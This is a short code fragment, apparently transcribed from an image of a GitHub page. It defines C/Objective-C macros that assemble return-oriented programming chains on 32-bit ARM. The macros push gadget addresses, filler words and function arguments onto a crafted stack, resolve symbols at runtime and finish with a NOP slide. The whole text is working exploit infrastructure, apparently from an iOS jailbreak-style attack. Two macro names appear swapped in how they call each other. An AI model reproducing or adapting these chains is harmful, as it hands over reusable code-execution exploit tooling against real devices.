 #define RopCallFunction10(push, name, a, b, c, d, e, f, g, h, i, l) \
RopFixupLR(push); \
push = (uint32_t)pop_r0r1r2r3r5r7pc; \
push = (uint32_t)a; \
push = (uint32_t)b; \
push = (uint32_t)c; \
push = (uint32_t)d; \
push = (uint32_t)0x45454545; \
push = (uint32_t)(m_m_scratch); \
assert((uint32_t)[dy solveSymbol:name]);\
push = (uint32_t)[dy solveSymbol:name];\
push = (uint32_t)e;\
push = (uint32_t)f;\
push = (uint32_t)g;\
push = (uint32_t)h;\
push = (uint32_t)i;\
push = (uint32_t)l;\
RopNopSlide(push)
    
#define RopCallFunction9Deref1(push, name, repl_arg_0, read_ptr_0, a, b, c, d, e, f, g, h, i) RopCallFunctionPointer10Deref1(push,[dy solveSymbol:name], repl_arg_0,read_ptr_0,a,b,c,d,e,f,g,h,i,0)
#define RopCallFunction10Deref1(push, name, repl_arg_0, read_ptr_0, a, b, c, d, e, f, g, h, i, l) RopCallFunctionPointer9Deref1(push,[dy solveSymbol:name], repl_arg_0,read_ptr_0,a,b,c,d,e,f,g,h,i,l)
#define RopCallFunctionPointer10Deref1(push, ptr, repl_arg_0, read_ptr_0, a, b, c, d, e, f, g, h, i, l) \
RopFixupLR(push);\
push = (uint32_t)pop_r0r1r3r4r7pc;\
push = (uint32_t)read_ptr_0 - 8;\
push = (uint32_t)0x11111111;\
push = (uint32_t)0x33333333;\
push = (uint32_t)0x44444444;\
push = (uint32_t)m_m_scratch; \
push = (uint32_t)ldr_r0_r0_8_pop_r7pc;\
push = (uint32_t)m_m_scratch;\
push = (uint32_t)pop_r4r7pc;\
tmp = ((repl_arg_0 < 4) ? (4*(repl_arg_0 + 6)) : (4*(repl_arg_0 + 9))) + (((char*)stack) - ((char*)stackbase)) + segstackbase;\
push = (uint32_t)tmp  - 8; \
push = (uint32_t)m_m_scratch;\
push = (uint32_t)str_r0_r4_8_pop_r4r7pc;\
push = (uint32_t)0x44444444;\
push = (uint32_t)m_m_scratch;\
push = (uint32_t)pop_r0r1r2r3r5r7pc; \
push = (uint32_t)a; \
push = (uint32_t)b; \
push = (uint32_t)c; \
push = (uint32_t)d; \
push = (uint32_t)0x45454545; \
push = (uint32_t)(m_m_scratch); \
assert((uint32_t)ptr);\
push = (uint32_t)ptr;\
push = (uint32_t)e;\
push = (uint32_t)f;\
push = (uint32_t)g;\
push = (uint32_t)h;\
push = (uint32_t)i;\
push = (uint32_t)l;\
push = (uint32_t)0;\
push = (uint32_t)0;\
push = (uint32_t)0;\
push = (uint32_t)0;\
RopNopSlide(push)
    